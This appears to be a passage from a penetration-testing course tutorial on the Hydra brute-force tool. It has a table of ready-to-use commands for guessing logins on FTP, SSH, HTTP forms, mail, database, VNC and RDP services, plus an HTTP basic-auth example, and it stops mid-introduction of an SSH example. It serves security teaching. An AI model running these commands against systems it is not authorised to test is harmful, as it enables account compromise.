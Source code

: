 ### Hydra Services

Hydra services essentially define the specific protocols or services that Hydra can target. They enable Hydra to interact with different authentication mechanisms used by various systems, applications, and network services. Each module is designed to understand a particular protocol's communication patterns and authentication requirements, allowing Hydra to send appropriate login requests and interpret the responses. Below is a table of commonly used services:

|Hydra Service|Service/Protocol|Description|Example Command|
|---|---|---|---|
|ftp|File Transfer Protocol (FTP)|Used to brute-force login credentials for FTP services, commonly used to transfer files over a network.|`hydra -l admin -P /path/to/password_list.txt ftp://192.168.1.100`|
|ssh|Secure Shell (SSH)|Targets SSH services to brute-force credentials, commonly used for secure remote login to systems.|`hydra -l root -P /path/to/password_list.txt ssh://192.168.1.100`|
|http-get/post|HTTP Web Services|Used to brute-force login credentials for HTTP web login forms using either GET or POST requests.|`hydra -l admin -P /path/to/password_list.txt http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"`|
|smtp|Simple Mail Transfer Protocol|Attacks email servers by brute-forcing login credentials for SMTP, commonly used to send emails.|`hydra -l admin -P /path/to/password_list.txt smtp://mail.server.com`|
|pop3|Post Office Protocol (POP3)|Targets email retrieval services to brute-force credentials for POP3 login.|`hydra -lÂ user@example.comÂ -P /path/to/password_list.txt pop3://mail.server.com`|
|imap|Internet Message Access Protocol|Used to brute-force credentials for IMAP services, which allow users to access their email remotely.|`hydra -lÂ user@example.comÂ -P /path/to/password_list.txt imap://mail.server.com`|
|mysql|MySQL Database|Attempts to brute-force login credentials for MySQL databases.|`hydra -l root -P /path/to/password_list.txt mysql://192.168.1.100`|
|mssql|Microsoft SQL Server|Targets Microsoft SQL servers to brute-force database login credentials.|`hydra -l sa -P /path/to/password_list.txt mssql://192.168.1.100`|
|vnc|Virtual Network Computing (VNC)|Brute-forces VNC services, used for remote desktop access.|`hydra -P /path/to/password_list.txt vnc://192.168.1.100`|
|rdp|Remote Desktop Protocol (RDP)|Targets Microsoft RDP services for remote login brute-forcing.|`hydra -l admin -P /path/to/password_list.txt rdp://192.168.1.100`|

### Brute-Forcing HTTP Authentication

Imagine you're tasked with testing the security of a website using basic HTTP authentication atÂ `www.example.com`. You have a list of potential usernames stored inÂ `usernames.txt`Â and corresponding passwords inÂ `passwords.txt`. To launch a brute-force attack against this HTTP service, use the following Hydra command:


```shell-session
smoothment@htb[/htb]$ hydra -L usernames.txt -P passwords.txt www.example.com http-get
```

This command instructs Hydra to:

- Use the list of usernames from theÂ `usernames.txt`Â file.
- Use the list of passwords from theÂ `passwords.txt`Â file.
- Target the websiteÂ `www.example.com`.
- Employ theÂ `http-get`Â module to test the HTTP authentication.

Hydra will systematically try each username-password combination against the target website to discover a valid login.

### Targeting Multiple SSH Servers

Consider a situation where you have identified several servers that may be vulnerable to SSH brute-force attacks. You compile their IP addresses into a file namedÂ `targets.txt`Â and know that these servers might use the default username "root" and password "toor." To efficiently test all these servers simultaneously, use the following Hydra command:
